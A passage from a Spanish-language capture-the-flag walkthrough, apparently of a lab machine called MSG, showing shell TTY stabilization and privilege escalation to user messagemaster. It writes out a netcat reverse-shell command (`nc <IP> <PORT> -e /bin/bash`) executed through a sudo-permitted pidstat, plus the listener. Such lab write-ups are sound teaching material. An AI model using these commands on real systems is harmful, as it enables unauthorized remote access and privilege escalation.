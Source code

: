 Veremos que ha funcioando, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user messagemaster

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on MSG:
    (messagemaster) NOPASSWD: /bin/pidstat
```

Vemos que podemos ejecutar el binario `pidstat` como el usuario `messagemaster`, por lo que haremos lo siguiente:

```shell
COMMAND="nc <IP> <PORT> -e /bin/bash"
sudo -u messagemaster pidstat -e $COMMAND
```

Antes de ejecutarlo nos pondremos a la escucha en otra ventana de terminal de nuestro `host`.

```shell
nc -lvnp <PORT>
```

Ahora si lo ejecutamos veremos lo siguiente:

```
Linux 5.10.0-19-amd64 (MSG)     07/07/25        _x86_64_        (1 CPU)

16:19:20      UID       PID    %usr %system  %guest   %wait    %CPU   CPU  Command
16:19:20     1000       893    0.00    0.00    0.00    0.00    0.00     0  pidstat
```
